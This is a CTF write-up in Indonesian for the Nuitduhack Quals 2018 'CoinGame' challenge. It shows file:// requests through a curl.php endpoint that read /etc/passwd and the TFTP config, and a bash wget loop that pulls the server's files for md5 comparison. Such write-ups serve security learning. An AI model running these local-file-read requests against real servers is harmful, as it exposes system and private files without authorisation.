 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-04-01
date: 2018-04-01
title: "Nuitduhack Quals 2018: CoinGame - 200pts"
tags: [nuitduhack]
mathjax: false
imagefeature: 
description: "Nuitduhack Quals 2018: CoinGame - 200pts"
category: ctf
chart: null
---
```



## Problem
---

```
Description
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```
**Url :** http://coingame.challs.malice.fr/

## Writeup
---

Website yang diberikan memiliki fungsi untuk melakukan fetch terhadap input url yg kita berikan. dan kita dapat
mengontrol protokol apa yang akan kita gunakan. untuk membaca lokal file saya menggunakan protokol file://
`http://coingame.challs.malice.fr/curl.php?way=file%3A%2F%2F%2Fetc%2Fpasswd` => untuk file /etc/passwd

pada file /etc/passwd kita belum menemukan informasi lokasi flag kemudian saya mencoba untuk melakukan fuzzing menggunakan burpsuite intruder untuk
mencari configuration file pada sistem linux

![Coin Game](../images/coingame.png)

belum mendapatkan hal yang menarik, kembali ke file /etc/passwd disana terlihat
ada user `tftp:x:104:107:tftp daemon,,,:/srv/tftp:/bin/false` menurut wikipedia `https://en.wikipedia.org/wiki/CURL` 
curl support tftp, setelah membaca `https://help.ubuntu.com/community/TFTP` diketahui file configurasi untuk
tftp yang bisa kita baca `http://coingame.challs.malice.fr/curl.php?way=file:///etc/default/tftpd-hpa`

```

# /etc/default/tftpd-hpa

TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
``` 

sampai ke tahap dimana kita butuh kemampuan untuk ~~guessing~~ recon
untuk mencari akun dari author soal tersebut di internet dan kita bisa temukan di copyright 
terlihat ada username di copyright `TOTHEYELLOWMOON` 
setelah kita mencari user dengan username tersebut kita menemukan 
username-nya ada di github dan mempunyai repository `CoinGame` itu menandakan
kita tidak salah orang `https://github.com/totheyellowmoon/CoinGame/`

dan dugaan kita diperkuat oleh Deskripsi dari repositorynya : Congrats it was the first step ! Welcome on my Github, this is my new game but I haven't pushed the modifications ...
dari deskripsinya kita bisa menebak bahwa kode yang terbarunya hanya tersimpan di servernya dan belum di push.

kita clone repositorynya untuk membantu kita mengambil file yang ada diserver dengan memanfaatkan filename nya,
dan kita bandingkan md5sum nya dengan yang ada di server.

```
mkdir ctf
cd ctf
git clone https://github.com/totheyellowmoon/CoinGame.git
mkdir -p Server Server/photo Server/CardFiles Server/Cards Server/Decks Server/gameAnimationImages Server/photo/Drag Server/photo/Moderne Server/photo/New Server/photo/Ogres Server/photo/reve
cd CoinGame
#Download Core file
dir=("" "CardFiles" "Cards" "Decks" "gameAnimationImages" "photo");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/$d/$x" -O "../Server/$d/$x";done;done
cd photo
#Subfolder photo
dir=("Drag" "Moderne" "New" "Ogres" "reve");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/photo/$d/$x" -O "../../Server/photo/$d/$x";done;done
cd ../
#diff the file
dir=("CardFiles" "Cards" "Decks" "gameAnimationImages" "photo" "photo/Drag" "photo/Moderne" "photo/New" "photo/Ogres" "photo/reve"); for d in "${dir[@]}"; do diff <(md5sum $d/* | sed "s/$d//") <(md5sum ../Server/$d/* | sed "s/\.\.\/Server\/$d//");done
```

Ide dari kode di atas adalah mendownload ulang semua file yang 
kita ketahui dari Repository CoinGame dan mengambil file yang ada 
di server dan lakukan perbandingan menggunakan `md5sum` kemudian 
didapatkan beberapa perbedaan
dari file yang ada di repository dan di server 

![Diff](../images/coingame2.png)

flag di temukan di file background[0-3].png

![Flag](../images/coingame3.png)
